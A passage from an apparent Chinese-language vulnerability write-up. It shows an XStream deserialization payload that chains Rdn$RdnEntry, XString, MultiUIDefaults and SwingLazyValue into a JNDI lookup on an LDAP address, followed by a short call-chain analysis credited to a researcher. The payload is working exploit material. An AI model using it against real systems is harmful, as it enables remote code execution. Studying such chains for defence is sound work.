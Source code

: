 ```xml
        </default>
      </javax.swing.UIDefaults>
      <javax.swing.MultiUIDefaults>
        <default>
          <tables>
            <javax.swing.UIDefaults serialization='custom'>
              <unserializable-parents/>
              <hashtable>
                <default>
                  <loadFactor>0.75</loadFactor>
                  <threshold>525</threshold>
                </default>
                <int>700</int>
                <int>1</int>
                <string>lazyValue</string>
                <sun.swing.SwingLazyValue>
                  <className>javax.naming.InitialContext</className>
                  <methodName>doLookup</methodName>
                  <args>
                    <string>ldap://localhost:1099/CallRemoteMethod</string>
                  </args>
                </sun.swing.SwingLazyValue>
              </hashtable>
              <javax.swing.UIDefaults>
                <default>
                  <defaultLocale reference='../../../../../../../javax.swing.UIDefaults/default/defaultLocale'/>
                  <resourceCache/>
                </default>
              </javax.swing.UIDefaults>
            </javax.swing.UIDefaults>
          </tables>
        </default>
      </javax.swing.MultiUIDefaults>
    </value>
  </javax.naming.ldap.Rdn_-RdnEntry>
  <javax.naming.ldap.Rdn_-RdnEntry>
    <type>ysomap</type>
    <value class='com.sun.org.apache.xpath.internal.objects.XString'>
      <m__obj class='string'>test</m__obj>
    </value>
  </javax.naming.ldap.Rdn_-RdnEntry>
</sorted-set>
```

### [](#分析-2 "分析")分析

这个是wh1t3p1g师傅上交的，实际为ysomap里的LazyValue，师傅给的调用链分析

```plain
javax.naming.ldap.Rdn$RdnEntry.compareTo
    com.sun.org.apache.xpath.internal.objects.XString.equal
        javax.swing.MultiUIDefaults.toString
            UIDefaults.get
                UIDefaults.getFromHashTable
                    UIDefaults$LazyValue.createValue
                    SwingLazyValue.createValue
                        javax.naming.InitialContext.doLookup()
```
